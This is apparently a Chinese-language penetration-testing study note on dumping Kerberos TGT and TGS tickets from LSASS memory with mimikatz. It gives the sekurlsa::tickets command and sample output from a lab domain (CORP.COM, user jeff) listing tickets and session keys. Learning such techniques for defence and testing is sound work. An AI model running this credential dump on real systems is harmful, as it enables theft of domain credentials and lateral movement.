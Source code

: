 

## 使用mimikaz获取kerberos中Ticket
TGS或者TGT可以使用mimikaz保存在磁盘上，或者从磁盘导入到LSASS内存中
`sekurlsa::tickets`
最后输出本机保存的所有用户的TGT和TGS票据


```txt
结果：
Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service    #TGS票据
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             38dba17553c8a894c79042fe7265a00e36e7370b99505b8da326ff9b12aaf9c7
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             c44762f3b4755f351269f6f98a35c06115a53692df268dead22bc9f06b6b0ce5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket   #TGT票据
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             bf25fbd514710a98abaccdf026b5ad14730dd2a170bca9ded7db3fd3b853892a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```
